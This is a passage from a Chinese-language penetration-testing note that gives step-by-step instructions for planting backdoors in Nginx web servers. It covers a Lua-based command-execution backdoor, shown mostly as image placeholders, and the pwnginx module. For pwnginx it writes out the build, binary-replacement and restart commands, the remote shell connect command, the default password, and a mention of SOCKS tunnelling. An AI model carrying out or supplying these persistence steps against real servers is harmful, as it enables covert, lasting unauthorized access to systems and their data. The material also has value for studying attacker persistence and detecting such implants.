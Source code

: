  #### Nginx Lua后门
	From:https://github.com/netxfly/nginx_lua_security
	https://github.com/Y4er/Y4er.com/blob/251d88d8a3cf21e9bafe15c43d7900ffeacfa7ea/content/post/nginx-lua-backdoor.md
	后门利用的前提是获取到root权限，nginx安装有lua模块。
	在nginx.conf中http节处添加，指定lua脚本位置，以及nginx启动时加载的脚本
![image](/assets/Pentest_Note/master/img/641.png)

	在lua目录/waf/中新建Init.lua，内容如下，require nginx表示加载nginx.lua中的模块。
![image](/assets/Pentest_Note/master/img/642.png)

	/waf/目录中新建nginx.lua实现执行命令，参数为waf。
![image](/assets/Pentest_Note/master/img/643.png)

	在nginx配置文件中加入location。
![image](/assets/Pentest_Note/master/img/644.png)

	效果：
![image](/assets/Pentest_Note/master/img/645.png)
 #### PwnNginx
	From:https://github.com/t57root/pwnginx
	解压好后编译客户端
	>make
![image](/assets/Pentest_Note/master/img/646.png)

	编辑nginx的源文件/src/core/nginx.c找到configure arguments:在后面添加--prefix=/usr/local/nginx\n指定的是nginx安装的目录
![image](/assets/Pentest_Note/master/img/647.png)

	重新编译nginx添加后门模块
	>./configure --prefix=/usr/local/nginx/ --add-module=/tmp/pwnginx-master/module
![image](/assets/Pentest_Note/master/img/648.png)
	
	>make
![image](/assets/Pentest_Note/master/img/649.png)

	覆盖新的nginx到原nginx目录
	>cp -f objs/nginx /usr/local/nginx/sbin/nginx
![image](/assets/Pentest_Note/master/img/650.png)

	重启nginx
	>killall nginx&/usr/local/nginx/sbin/nginx
	连接
	>./pwnginx shell 目标机 nginx端口 密码
	默认密码是t57root，密码的配置文件在pwnginx-master\module\config.h文件夹中，可在重新编译nginx前修改密码
![image](/assets/Pentest_Note/master/img/651.png)
![image](/assets/Pentest_Note/master/img/652.png)

	此后门也可开启socks隧道